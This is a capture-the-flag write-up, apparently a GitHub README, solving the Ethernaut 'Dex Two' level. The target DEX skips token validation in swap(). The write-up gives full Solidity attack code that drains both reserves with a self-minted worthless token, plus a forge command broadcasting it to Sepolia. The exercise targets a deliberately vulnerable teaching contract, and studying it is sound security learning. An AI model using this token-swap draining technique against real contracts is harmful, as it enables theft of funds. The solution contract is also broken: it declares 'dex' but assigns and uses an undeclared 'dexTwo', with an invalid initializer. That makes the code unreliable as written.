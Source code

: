 <div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>

<img src="../assets/levels/23-dexTwo.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 23 - Dex Two</strong></h1>

</div>
<br>

Read the article directly on my blog: [Ethernaut Solutions | Level 23 - Dex Two](https://blog.pedrojok.com/the-ethernaut-ctf-solutions-23-dex-two)

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Goals](#goals)
- [The hack](#the-hack)
- [Solution](#solution)
- [Takeaway](#takeaway)

## Goals

<img src="../assets/requirements/23-dexTwo-requirements.webp" width="800px"/>

## The hack

The DexTwo contract is interesting. It is almost exactly the same as the previous one, but this time our goal is to drain the reserves of <b>both</b> tokens! In reality, this is even simpler... First, let's try to find the differences between the two contracts.

In fact, there is only 1 difference, in the `swap()` function:

```javascript
function swap(address from, address to, uint amount) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapPrice(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  }
```

The following requirement has been removed:

```javascript
require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
```

So basically, the contract is no longer validating the tokens that are being swapped. This means that we can swap any token for any other token, and the contract will not complain. Good for us! This is a huge vulnerability, and we can use it to drain the reserves of both tokens very easily, and for free :)

Let's create a new useless token that will be used as `tokenIn` to feed the DexTwo contract while we empty its `tokenOut` reserves. Something simple inherited from OpenZeppelin's ERC20 contract will do just fine:

```javascript
contract FreeToken is ERC20 {
    constructor(address _dexterTwo) ERC20("FreeToken", "FTK") {
        _mint(_dexterTwo, 10000000 * 10 ** decimals());
    }
}
```

Next, we have to make sure everything is set correctly, and that all approvals are in place. After that, we send 100 FreeToken to the DexTwo contract to simulate an existing reserve. And we will finally be able to drain the reserves of both tokens in exchange for our FreeToken!

- The first swap will be of 100 FreeTokens for `token1`. This will empty the reserves of token1.
- The second swap will be of 200 FreeTokens for `token2`. This will empty the reserves of `token2`.

## Solution

Here is the full solution:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import {ERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";

interface IDexTwo {
    function token1() external returns (address);
    function token2() external returns (address);
    function swap(address from, address to, uint256 amount) external;
    function approve(address spender, uint256 amount) external;
    function balanceOf(
        address token,
        address account
    ) external view returns (uint256);
}

contract FreeToken is ERC20 {
    constructor(address _dexterTwo) ERC20("FreeToken", "FTK") {
        _mint(_dexterTwo, 10000000 * 10 ** decimals());
    }
}

contract DexterTwo {
    IDexTwo private immutable dex = IDexTwo;
     address private immutable token1;
    address private immutable token2;
    address private freeToken;

    constructor(address _dexTwo) {
        dexTwo = IDexTwo(_dexTwo);
        token1 = dexTwo.token1();
        token2 = dexTwo.token2();
    }

    function setFreeToken(address _freeToken) public {
        freeToken = _freeToken;
    }

    function attack() public {
        dexTwo.approve(address(dexTwo), type(uint256).max);
        IERC20(freeToken).approve(address(dexTwo), type(uint256).max);
        IERC20(freeToken).transfer(address(dexTwo), 100);

        dexTwo.swap(freeToken, token1, 100);
        dexTwo.swap(freeToken, token2, 200);

        require(
            IERC20(token1).balanceOf(address(dexTwo)) == 0 &&
                IERC20(token2).balanceOf(address(dexTwo)) == 0,
            "Hack failed!"
        );
    }
}
```

You can run the script with the following command:

```bash
forge script script/23_DexTwo.s.sol:PoC --rpc-url sepolia --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY --watch
```

## Takeaway

- Always validate the sensitive inputs properly.

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>

